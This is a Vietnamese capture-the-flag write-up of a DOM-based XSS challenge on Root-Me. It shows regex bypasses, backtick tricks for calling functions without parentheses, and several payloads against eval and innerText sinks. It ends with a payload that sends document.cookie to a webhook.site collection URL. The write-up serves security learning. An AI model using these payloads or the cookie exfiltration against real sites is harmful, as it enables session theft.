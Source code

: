 ## XSS DOM Based - Eval

Challenge: http://challenge01.root-me.org/web-client/ch34

![alt text](image.png)

Ở đây ta cần nhập 1 phép tính, và nếu như nhập sai định dạng nó sẽ báo: 

![alt text](image-1.png)

Đúng định dạng của nó: 

![alt text](image-2.png)

Xem code ta thấy có 2 sink ở đây gồm `eval` và `innerText`

![alt text](image-3.png)

Trước tiên là phải bypass regex đầu vào, ở đây regex chỉ check đối với phép tính đầu tiên, sau khi đúng phép tính đầu tiên thì các kí tự tiếp theo không cần theo regex nữa: `1+1,a`

![alt text](image-4.png)

Nhưng bị filter với `()` - cái này thì có thể thay thế dễ dàng bởi ``` ` ```: 

![alt text](image-5.png)

Ok, bây giờ ta cần tìm ra cách để thực thi JS: 

Đầu tiên là theo sink của `eval`:

Cách 1: ``1+1+[alert`1`]``:

![alt text](image-6.png)

Cách 2: ``1*1+";alert`1`;"`` cách này có thể thay thế `"` bằng `'`

![alt text](image-7.png)

Cách 3: ``1+1,alert`1` ``

![alt text](image-8.png)

Cách 4: ``1+1`${alert`1`}` ``

Tiếp theo ta có thể khai thác theo sink của `innerText`:

mình tham khảo ở: https://nhienit5.wordpress.com/2023/11/20/xss-dom-based-eval/

``2+2/*';alert`2`//*/``

![alt text](image-9.png)

Phân tích 1 tí theo như mình hiểu:

Đầu tiên ý tưởng là dùng `'` để kết thúc phần `innerText` và payload sẽ được tiêm sau đó

Thứ 2, nếu chỉ dùng `'` thì sẽ bị báo lỗi vì `'` dùng để kết thúc chuỗi, mà như vậy sẽ không có dấu `)` của `eval` nên nó báo lỗi:

![alt text](image-10.png)

Nên ta dùng `/**/` để comment `'` với ý chỉ comment thì `eval` nó sẽ không thực thi vì vậy phép tính vẫn chỉ là `2+2` 

Nhưng khi đưa xuống `innerText` thì nó vẫn thoát ra được và đoạn ``alert`2` `` trở thành 1 đoạn code JS ở ngoài

![alt text](image-11.png)

Và đoạn `//` chỉ mục đích comment đoạn code phía sau

Theo những cách đó ta có thể điều hướng trang ra ngoài, và payload cuối cùng: 

``1+1,  document.location.href="https://webhook.site/07033ffb-793e-44dd-b057-35ae215ce803/?source="+document.cookie``

![alt text](image-12.png)